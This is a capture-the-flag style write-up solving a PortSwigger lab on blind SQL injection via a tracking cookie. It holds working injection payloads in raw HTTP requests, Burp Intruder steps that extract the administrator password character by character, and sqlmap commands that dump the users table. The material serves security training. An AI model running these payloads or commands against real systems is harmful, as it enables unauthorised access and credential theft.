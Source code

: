 # [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'1'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'2'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

2. Check version: `TrackingId=1wURfC7i7InFbVKD'%3b+SELECT+'a'+FROM+pg_sleep(10)+--;`

3. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

4. Determine the length of admin password using burp's intruder:

    - positions: `TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)=§§--;`
    - payloads: 1 -> 30
    - result: 20

5. Determine the password: using SUBSTRING and burp's intruder.

    - attack mode: Cluster bomb
    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
        Cookie: TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTRING(password,§§,1)='§§'--;
        ```

    - Payloads:
        - Set 1: 1->20
        - Set 2: a->z, A->Z, 1->9
    - result:

        ![password.png](./../img/lab-11-password.png)

6. Login to admin account => Lab Solved

## sqlmap

modify a request in burpsuite proxy and save it to a file:

```http
GET /filter?category=abc HTTP/1.1
Host: id.web-security-academy.net
Cookie: TrackingId=*;
```

run sqlmap:

```bash
┌──(kali㉿kali)-[~]
└─$  sqlmap -r ~/Desktop/test-sqlmap -batch

[INFO] (custom) HEADER parameter 'Cookie #1*' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
it looks like the back-end DBMS is 'PostgreSQL'.
[INFO] the back-end DBMS is PostgreSQL
```

```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r ~/Desktop/test-sqlmap -batch --dbms=postgresql -dbs

available databases [1]:
[*] public
```

```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r ~/Desktop/test-sqlmap -batch --dbms=postgresql -D public --tables


Database: public
[2 tables]
+----------+
| tracking |
| users    |
+----------+
```

```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r ~/Desktop/test-sqlmap -batch --dbms=postgresql -D public -T users -dump

...
```
